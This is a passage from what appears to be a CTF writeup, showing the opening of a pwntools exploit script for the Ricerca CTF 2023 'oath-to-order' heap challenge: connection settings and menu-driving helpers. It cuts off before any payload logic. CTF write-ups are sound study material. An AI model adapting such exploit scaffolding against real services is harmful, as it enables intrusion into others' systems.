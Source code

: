 # Full Exploit

https://github.com/smallkirby/pwn-writeups/blob/master/ricerca2023/oath-to-order/exploit.py

```py
#!/usr/bin/env python
#encoding: utf-8;

from pwn import *
import sys

FILENAME = "chall"
LIBCNAME = ""

hosts = ("oath-to-order.2023.ricercactf.com","localhost","localhost")
ports = (9003,12300,23947)
rhp1 = {'host':hosts[0],'port':ports[0]}    #for actual server
rhp2 = {'host':hosts[1],'port':ports[1]}    #for localhost 
rhp3 = {'host':hosts[2],'port':ports[2]}    #for localhost running on docker
context(os='linux',arch='amd64')
binf = ELF(FILENAME)
libc = ELF(LIBCNAME) if LIBCNAME!="" else None


## utilities #########################################

def create(ix: int, align: int, size: int, data: str):
  global c
  print(f"[CREATE] ix:{ix}, align:{align}, size:{size}, datalen:{len(data)}")
  print(c.recvuntil("1. Create"))
  c.sendlineafter("> ", b"1")
  c.sendlineafter("index: ",str(ix))
  if "inv" in str(c.recv(4)):
    return
  c.sendlineafter(": ", str(size))
  if "inv" in str(c.recv(4)):
    return
  c.sendlineafter(": ", str(align))
  if "inv" in str(c.recv(4)):
    return
  if '\n' in str(data):
    c.sendlineafter(": ", str(data).split('\n')[0])
  elif (len(data) == size - 1) and (size != 0) and (len(data) != 0):
    c.sendafter(": ", data)
  elif (len(data) >= size and size != 0):
    c.sendafter(": ", data[:size-1])
  else:
    c.sendlineafter(": ", data)

def show(ix: int):
  global c
  print(f"[SHOW] ix:{ix}")
  print(c.recvuntil("1. Create"))
  c.sendlineafter("> ", b"2")
  c.sendlineafter("index: ", str(ix))

def quit():
  global c
  c.sendlineafter("> ", "3")

  c.interactive()

def wait():
```